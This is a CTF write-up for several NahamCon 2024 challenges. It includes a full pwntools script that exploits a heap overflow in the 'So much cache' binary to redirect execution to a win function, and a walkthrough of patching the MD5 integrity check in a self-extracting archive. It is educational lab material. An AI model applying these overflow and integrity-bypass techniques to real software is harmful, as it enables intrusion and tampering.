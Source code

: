 ```yaml
---
layout: writeup
category: NahamconCTF
chall_description: 
points: 
solves: 
tags: nahamcom rev pwn foren
date: 2024-06-11
comments: false
---
```



## Twine

Hexdump of file reveals the flag
![Branching](/assets/CTFs/NahamconCTF/twine.png)


## So much cache

Basic heap overflow
Input reads 3 times the size of malloc.

![Branching](/assets/CTFs/NahamconCTF/so-much-cache1.png)


Case 4 creates malloc and case 5 calls from the address stored in the allocated chunk, as this chunk will be created just below our first chunk, we can overflow in the second chunk and put address of the win function there.

Using case 5 we can call the address stored on second chunk.

![Branching](/assets/CTFs/NahamconCTF/so-much-cache2.png)


Here is the solve script I used to get the flag.

```py 
from pwn import *
 
context.update(arch='i386')
exe = '/home/kali/practice/CTF/NahmconCTF/24/so_much_cache'

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        print(argv)
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE: # ['server', 'port']
        return remote(sys.argv[1], sys.argv[2], *a, **kw) 
    else:
        return process([exe] + argv, *a, **kw)

gdbscript = '''
 
b main
b *0x0000000000400c00
'''.format(**locals()) 

io = start() 

io.sendlineafter(b"| select [1-5] : ", b"1")
io.sendlineafter(b"[?] size : ", b"24")

payload = b"\x90"*32 + p64(0x00000000004009ae) 

io.sendlineafter(b"[?] data : ", payload)
io.sendlineafter(b"| select [1-5] : ", b"4")
io.sendlineafter(b"| select [1-5] : ", b"5")
io.sendlineafter(b"Where do you want to jump? (1, 2, or 3)\n", b"1")

flag = io.recvline().strip().decode()
log.success(f"Flag: {flag}") 

```



## The Box


This was an interesting challenge as this was my first time dealing with POSIX shell script.

![Branching](/assets/CTFs/NahamconCTF/thebox1.png)


The binary asks for a pin, and creates source code at runtime which is stored in `/tmp` directory.

![Branching](/assets/CTFs/NahamconCTF/thebox2.png)


We can analyze the file `thebox.py` and get the pin.
![Branching](/assets/CTFs/NahamconCTF/thebox3.png)


Using the pin to get the flag.

![Branching](/assets/CTFs/NahamconCTF/thebox4.png)



## Locked Box

Executing the file gives us MD5 checksum error.

```sh
┌──(kali㉿kali)-[~/practice/CTF/NahmconCTF/24]
└─$ ./lockedbox
Verifying archive integrity...  100%  Error in MD5 checksums: 7fadba346fd6990fa28ed1422e058e89 is different from adba346fd6990fa28ed1422e058e89

```

Echoing first 20 lines of the file shows us the md5 hash being stored in binary.

```sh
┌──(kali㉿kali)-[~/practice/CTF/NahmconCTF/24]
└─$ head -n 20 lockedbox
#!/bin/sh
# This script was generated using Makeself 2.5.0
# The license covering this archive and its contents, if any, is wholly independent of the Makeself license (GPL)

ORIG_UMASK=`umask`
if test "n" = n; then
    umask 077
fi

CRCsum="1121865259"
MD5="adba346fd6990fa28ed1422e058e89"
SHA="0000000000000000000000000000000000000000000000000000000000000000"
SIGNATURE=""
TMPROOT=${TMPDIR:=/tmp}
USER_PWD="$PWD"
export USER_PWD
ARCHIVE_DIR=`dirname "$0"`
export ARCHIVE_DIR

label="lockedbox"

```


We can edit the binary using Ghidra or any hexeditor. I used Ghidra to change the MD5 hash.

![Branching](/assets/CTFs/NahamconCTF/lockedbox1.png)

And we get the flag.
```sh
┌──(kali㉿kali)-[~/practice/CTF/NahmconCTF/24]
└─$ ./lockedbox.ghidra.patch.bin 
Verifying archive integrity...  100%   MD5 checksums are OK. All good.
Uncompressing lockedbox  100%  
flag{3a50c5e41a1c3eee6dcddca9e04992e0}

```




